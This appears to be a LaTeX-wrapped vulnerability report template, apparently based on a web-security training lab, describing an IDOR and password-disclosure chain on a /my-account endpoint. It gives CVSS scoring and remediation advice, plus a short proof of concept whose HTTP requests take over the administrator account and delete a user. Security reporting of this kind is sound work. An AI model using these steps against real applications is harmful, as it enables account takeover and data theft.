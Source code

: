 \documentclass[11pt,letterpaper]{article}
\begin{document}
\subsection{Report Template}

\begin{verbatim}[caption={Vulnerability report template}]
# Vulnerability Report: IDOR + Password Disclosure Chain

## Executive Summary
The application's /my-account endpoint accepts a user-controlled 'id'
parameter without authorization checks, AND returns the user's current
password pre-filled in a masked input field. This allows any authenticated
user to extract the administrator's password and achieve full account
takeover.

## Severity Assessment
- CVSS v3.1 Base Score: 9.1 (Critical)
- Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- Primary CWE: CWE-639 (IDOR), CWE-256 (Plaintext Password)

## Technical Details

### Vulnerability Chain
1. IDOR on /my-account endpoint
2. Password disclosure in HTML response
3. Account takeover via extracted credentials
4. Administrative privilege abuse

### Proof of Concept

#### Step 1: Login as wiener (low-privilege)
POST /login
username=wiener&password=peter

#### Step 2: Access administrator's account (IDOR)
GET /my-account?id=administrator
Cookie: session=[wiener's session]

Response contains:
<input type="password" name="password" value="[ADMIN_PASSWORD]">

#### Step 3: Login as administrator
POST /login
username=administrator&password=[EXTRACTED_PASSWORD]

#### Step 4: Delete user
GET /admin/delete?username=carlos

## Impact Analysis
- Complete account takeover of any user including administrator
- Full administrative access to application
- Ability to delete/modify any user
- Potential data breach of all user credentials

## Root Cause Analysis
1. Missing object-level authorization on account endpoint
2. Improper credential handling - passwords stored in retrievable form
3. Password pre-filled in client-side HTML

## Remediation Recommendations
1. Remove 'id' parameter - derive user identity from session
2. NEVER store passwords in retrievable form (use bcrypt/Argon2)
3. NEVER pre-fill password fields with existing values
4. Implement proper password reset flow instead of password display
5. Add object-level authorization checks on all user-specific endpoints

## References
- CWE-639: Authorization Bypass Through User-Controlled Key
- CWE-256: Plaintext Storage of a Password
- OWASP: Broken Access Control
\end{verbatim}
\end{document}
